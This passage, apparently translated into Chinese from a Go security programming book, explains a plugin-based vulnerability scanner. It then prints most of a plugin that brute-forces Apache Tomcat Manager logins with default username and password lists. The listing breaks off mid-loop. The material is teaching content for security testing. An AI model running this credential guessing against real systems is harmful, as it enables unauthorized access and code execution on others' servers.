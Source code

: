 正如我们在之前的高层概述中提到的，这种符号查找约定要求你的主程序将符号的显式名称作为参数传递，这意味着你期望插件拥有一个同名的导出符号——在这个例子中，我们的主程序正在寻找名为`New`的符号。此外，正如你稍后将看到的，代码期望这个符号是一个函数，它将返回你在上一节中讨论的`scanner.Checker`接口的具体实现。

假设你的插件包含一个名为`New`的符号，你尝试将它转换为类型`func()` `scanner.Checker` ❻。也就是说，你期望这个符号是一个返回实现了`scanner.Checker`的对象的函数。你将转换后的值赋给名为`newFunc`的变量。然后你调用它，并将返回的值赋给名为`check`的变量 ❼。由于你进行了类型断言，你知道`check`满足你的`scanner.Checker`接口，因此它必须实现一个`Check()`函数。你调用它，传入一个目标主机和端口 ❽。结果，一个`*scanner.Result`，被使用名为`res`的变量捕获，并检查是否服务存在漏洞 ❾。

请注意，这个过程是通用的；它使用类型断言和接口来创建一个构造体，允许你动态调用插件。代码中的任何内容都不是特定于单一漏洞签名或用于检查漏洞是否存在的方法。相反，你已经将功能抽象得足够清晰，以至于插件开发者可以创建独立的插件，执行各自的工作单元，而无需了解其他插件——甚至无需深入了解使用应用程序。插件作者唯一需要关注的是正确创建导出的`New()`函数和实现`scanner.Checker`的类型。让我们来看一个做到这一点的插件。

#### 构建一个密码猜测插件

这个插件（清单 10-3）对 Apache Tomcat Manager 登录门户进行密码猜测攻击。这个门户是攻击者的热门目标，通常配置为接受易于猜测的凭证。凭有效凭证，攻击者可以可靠地在底层系统上执行任意代码。这对攻击者来说是一次轻松的胜利。

在我们对代码的回顾中，我们不会涉及漏洞测试的具体细节，因为它实际上只是向特定 URL 发出的一系列 HTTP 请求。相反，我们将主要关注满足插件式扫描器接口要求的部分。

```
import (
    // Some snipped for brevity
    "github.com/bhg/ch-10/plugin-core/scanner" ❶
)

var Users = []string{"admin", "manager", "tomcat"}
var Passwords = []string{"admin", "manager", "tomcat", "password"}

// TomcatChecker implements the scanner.Check interface. Used for guessing Tomcat creds
type TomcatChecker struct{} ❷

// Check attempts to identify guessable Tomcat credentials
func (c *TomcatChecker) Check(host string, port uint64) *scanner.Result { ❸
    var (
        resp   *http.Response
        err    error
        url    string
        res    *scanner.Result
        client *http.Client
        req    *http.Request
    )  
    log.Println("Checking for Tomcat Manager...")
 res = new(scanner.Result) ❹
    url = fmt.Sprintf("http://%s:%d/manager/html", host, port)
    if resp, err = http.Head(url); err != nil {
        log.Printf("HEAD request failed: %s\n", err)
        return res
    }  
    log.Println("Host responded to /manager/html request")
    // Got a response back, check if authentication required
    if resp.StatusCode != http.StatusUnauthorized || resp.Header.Get("WWW-Authenticate") == "" {
        log.Println("Target doesn't appear to require Basic auth.")
        return res
    }  

    // Appears authentication is required. Assuming Tomcat manager. Guess passwords...
    log.Println("Host requires authentication. Proceeding with password guessing...")
    client = new(http.Client)
    if req, err = http.NewRequest("GET", url, nil); err != nil {
        log.Println("Unable to build GET request")
        return res
    }
    for _, user := range Users {
        for _, password := range Passwords {
            req.SetBasicAuth(user, password)
            if resp, err = client.Do(req); err != nil {
                log.Println("Unable to send GET request")
```